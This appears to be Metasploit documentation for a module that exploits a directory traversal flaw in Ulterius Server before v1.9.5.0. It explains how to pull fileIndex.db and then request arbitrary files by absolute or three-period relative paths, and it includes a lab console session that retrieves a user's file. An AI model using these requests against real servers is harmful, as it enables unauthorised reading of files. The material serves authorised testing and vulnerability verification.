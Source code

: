 ## Description

This module exploits a directory traversal vulnerability in [Ulterius Server < v1.9.5.0](https://github.com/Ulterius/server/releases). The directory traversal flaw occurs in Ulterius Server's `HttpServer.Process` function call. While processing file requests, the `HttpServer.Process` function does not validate that the requested file is within the web server's root directory or a subdirectory.

## Vulnerable Application

When requesting a file, a relative or absolute file path is needed so the appropriate request can be generated. Fortunately, Ulterius Server creates a file called `fileIndex.db`, which contains filenames and directories located on the server. By requesting `fileIndex.db` and parsing the retrieved data, absolute file paths can be retrieved for files hosted on the server. Using the information retrieved from parsing `fileIndex.db`, additional requests can be generated to download desired files.

As noted in the [EDB PoC](https://www.exploit-db.com/exploits/43141/), the `fileIndex.db` is usually located at:

`http://ulteriusURL:22006/.../fileIndex.db`

Note: 22006 was the default port after setting up the Ulterius Server.

After retrieving absolute paths for files, the files can be retrieved by sending requests of the form:

`http://ulteriusURL:22006/<DriveLetter>:/<path>/<to>/<file>`

Note: The [EDB PoC](https://www.exploit-db.com/exploits/43141/) used relative paths to download files but absolute paths can be used on Windows-platforms as well, because the `HttpServer.Process` function made use of the [Path.Combine](https://msdn.microsoft.com/en-us/library/fyy7a5kt(v=vs.110).aspx) function.

> If *path2* includes a root, *path2* is returned. 

## Options

**PATH**

This option specifies the absolute or relative path of the file to download. (default: `/…/fileIndex.db`)

Note: If you are using relative paths, use three periods when traversing down a level in the directory structure. If absolute paths are used, make sure to include the drive letter.

## Verification Steps

- [ ] Install Ulterius Server < v1.9.5.0
- [ ] `./msfconsole`
- [ ] `use auxiliary/admin/http/ulterius_file_download`
- [ ] `set rhost <rhost>`
- [ ] `run`
- [ ] Verify loot contains file system paths from remote file system.
- [ ] `set path '<DriveLetter>:/<path>/<to>/<file>'`
- [ ] `run`
- [ ] Verify contents of file

## Scenarios

### Ulterius Server v1.8.0.0 on Windows 7 SP1 x64.

```
msf5 > use auxiliary/admin/http/ulterius_file_download
msf5 auxiliary(admin/http/ulterius_file_download) > set rhost 172.22.222.122
rhost => 172.22.222.122
msf5 auxiliary(admin/http/ulterius_file_download) > run

[*] Starting to parse fileIndex.db...
[*] Remote file paths saved in: filepath0
[*] Auxiliary module execution completed
msf5 auxiliary(admin/http/ulterius_file_download) > set path 'C:/users/pwnduser/desktop/tmp.txt'
path => C:/users/pwnduser/desktop/tmp.txt
msf5 auxiliary(admin/http/ulterius_file_download) > run

[*] C:/users/pwnduser/desktop/tmp.txt
[*] File contents saved: filepath1
[*] Auxiliary module execution completed
msf5 auxiliary(admin/http/ulterius_file_download) >
```
